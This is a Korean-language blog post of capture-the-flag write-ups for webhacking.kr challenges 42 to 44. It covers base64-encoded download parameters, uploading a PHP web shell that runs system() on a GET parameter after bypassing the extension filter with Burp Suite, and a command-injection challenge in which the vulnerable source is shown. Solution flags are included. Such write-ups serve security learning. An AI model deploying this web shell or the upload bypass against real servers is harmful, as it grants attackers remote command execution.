 ```yaml
---
title: "Security: webhacking.kr 42-46"
last_modified_at: 2020-08-07T20:20:02-05:00
categories:
  - Security
tags:
  - webhacking.kr
  - 웹해킹
toc: true 
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true 
author_profile: true 
read_time: false 
---
```


---
### 42 문제풀이 (base64 edcode)
---

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제42/42-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

42번 문제에 들어오니 두개의 파일을 다운 받을 수 있도록 만들어 놨다. 
test.txt를 열어보니 다음과 같이 쓰여있었고 flag.docx는 Access Denied로 다운 받을 수 없었다.
test.txt 파일의 내용이 힌트인듯 하다.
{: .notice}

```
test123
qwer123
asdf234
```

우선 다른 힌트를 더 얻기위하여 test.txt 다운로드 링크를 찾아보니 다음과 같았다.
{: .notice}
```php
https://webhacking.kr/challenge/web-20/?down=dGVzdC50eHQ=
```

영어 대소문자+숫자+= 을 보고 base64 encode 값임을 확신하고 decode를 했더니 파일명이 나타났다
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제42/42-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그래서 flag.docx도 똑같이 base64로 encode하여 아래와 같은 링크로 접속해보니 
{: .notice}

https://webhacking.kr/challenge/web-20/?down=ZmxhZy5kb2N4

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제42/42-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

위와 같이 파일을 다운 받을 수 있었고 쉽게 flag 값을 얻을 수 있었다.
{: .notice}

```
FLAG{very_difficult_to_think_up_text_of_the_flag}
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제42/42-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>


---
### 43 문제풀이 (Web Shell)
---
---
#### Web shell
---

* **Web shell 이란?**
* 파일 업로드 기능을 이용하여 시스템에 명령을 내릴 수 있는 웹 프로그램을 업로드 할 수 있는 취약점
* 서버 스크립트 jsp,php,asp 업로드 시 확장자에 대한 검증 필요
* 웹쉘 설치 시 해커들은 보안 시스템을 피하여 별도의 인증 없이 시스템에 쉽게 접속이 가능하므로 위험하다.
	* 공격자가 조작한 Server Site Script 파일을 업로드
	* 서버상에 저장된 경로를 유추하여 파일을 실행
	* 쉘 권한을 획득한 후에 시스템 명령어를 통하여 시스템 관리자 권한을 획득 또는 인접 서버에 침입을 시도
{: .notice}

---
#### 문제 풀이
---

43번 문제에 들어와보니 파일을 업로들 할수 있는 란이 있고 웹셀을 업로드하고 flag를 cat 명령어로 열어봐야한다고 적혀있다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제43/43-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```php
<?php

echo 'Chall43 Webshell<br>';
echo '<form action="">';
echo '<input type=text name="cmd">';
echo '<input type="submit">';
echo '</form>';

if(isset($_GET['cmd'])){
	system($_GET['cmd']);
}
?>
```
위 코드는 text 타입의 element를 통해서 cmd 값을 받아 system 명령어를 실행하도록 하는 소스코드다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제43/43-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

위와 같이 소스코드를 작성하고 업로드를 시도했으나 Access Denied라는 메세지가 나타났다. 그래서 확장자를 jpg로 바꾸어서 업로드 해보았다.   
참고: https://covenant.tistory.com/62
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제43/43-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그냥 jpg로 업로드하면 아무 의미가 없다. 실행이 되도록 하기 위해서 burp suite로 jpg를 지워서 확장자를 php로 고친 후 업로드하였다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제43/43-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

이제 업로드한 웹셀을 실행하였고 'cat flag'를 입력하였다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제43/43-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

위와 같이 flag 값을 얻는데 성공하였다!
{: .notice}

---
### 44 문제풀이 (system 명령어)
---
---
#### system 명령어
---

```php
<?php
echo '<pre>';

// Outputs all the result of shellcommand "ls", and returns
// the last output line into $last_line. Stores the return value
// of the shell command in $retval.
$last_line = system('ls', $retval);

// Printing additional info
echo '
</pre>
<hr />Last line of the output: ' . $last_line . '
<hr />Return value: ' . $retval;
?>
```

출처: https://www.php.net/manual/en/function.system.php
{: .notice}

---
#### 문제풀이
---

44번 문제는 이름을 입력받는 text 타입 element와 submit 버튼이 있었다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제44/44-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

소스코드를 살펴보자
{: .notice}

```php
<?php
  if($_GET['view_source']){ highlight_file(__FILE__); exit; }
?><html>
<head>
<title>Challenge 44</title>
</head>
<body>
<?php
  if($_POST['id']){
    $id = $_POST['id'];
    $id = substr($id,0,5);
    system("echo 'hello! {$id}'"); // You just need to execute ls
  }
?>
<center>
<form method=post action=index.php name=htmlfrm>
name : <input name=id type=text maxlength=5><input type=submit value='submit'>
</form>
<a href=./?view_source=1>view-source</a>
</center>
</body>
</html>
```

```
system("echo 'hello! {$id}'"); // You just need to execute ls
```

주목해야할 부분은 여기 인것같다. 이 코드를 고쳐서 ls 명령어를 실행하도록 고쳐보자. 단 입력은 5자 이내다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제44/44-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```
flag_29cbb98dafb4e471117fec409148e9386753569e
```



















